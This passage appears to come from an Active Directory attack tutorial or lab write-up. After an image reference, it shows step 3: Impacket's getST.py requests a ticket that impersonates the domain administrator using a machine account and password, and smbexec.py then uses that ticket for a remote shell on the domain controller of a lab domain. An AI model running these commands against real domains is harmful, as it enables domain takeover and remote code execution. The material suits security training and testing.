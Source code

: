 ![](./images/41.png#pic_center)

3. Apply for a service ticket

```bash
# Use getST.py to apply for tickets
python3 getST.py hack.local/test5$:Passw0rd -spn krbtgt -impersonate administrator -dc-ip 10.10.10.137

KRB5CCNAME=administrator.ccache python3 smbexec.py -k administrator@DC.hack.local -no-pass -dc-ip 10.10.10.137
```
